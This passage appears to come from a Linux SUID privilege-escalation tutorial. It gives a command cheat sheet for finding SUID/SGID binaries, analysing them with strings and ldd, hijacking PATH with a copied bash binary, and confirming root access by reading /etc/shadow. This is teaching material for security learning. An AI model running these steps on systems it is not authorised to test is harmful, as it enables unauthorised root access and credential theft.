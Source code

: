 ```bash

echo "[+] Assessment Complete. Report saved to: $REPORT_FILE"
```

---

## 📊 Quick Command Reference

### **Essential Commands Summary:**

#### **Basic Discovery:**
```bash
find / -type f -perm -4000 2>/dev/null         # Find SUID binaries
find / -type f -perm -2000 2>/dev/null         # Find SGID binaries
find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null  # Find both
ls -la binary_path                             # Check detailed permissions
```

#### **Binary Analysis:**
```bash
file binary_path                               # Determine file type
strings binary_path                            # Extract readable strings
strings binary_path | grep -E "bin|usr|tmp"   # Look for program calls
ldd binary_path                                # Show library dependencies
```

#### **Exploitation Techniques:**
```bash
cp /bin/bash replacement_name                  # Basic binary replacement
chmod +x replacement_name                     # Ensure executable
./vulnerable_suid_binary                       # Execute vulnerable program
export PATH=/tmp:$PATH                         # PATH manipulation
```

#### **Verification Commands:**
```bash
whoami                                         # Check current user
id                                             # Check user/group IDs
ls -la /root                                   # Test root directory access
cat /etc/shadow | head -5                     # Test privileged file access
```

### **Memory Tricks for Commands:**

#### **Easy Ways to Remember:**
- **SUID** = **S**et **U**ser **ID** (runs as owner)
- **4000** = **4** for SUID in octal permissions
- **2000** = **2** for SGID in octal permissions  
- **strings** = Extract readable **strings** from binary
- **find / -type f** = **Find** all **files** starting from **root**

#### **Command Pattern Recognition:**
```bash
# Remember: FIND → ANALYZE → EXPLOIT → VERIFY
find [location] [criteria]           # Discover targets
strings [binary] | grep [pattern]    # Analyze behavior
cp [source] [replacement]            # Create exploit
./[vulnerable_program]               # Execute attack
```

---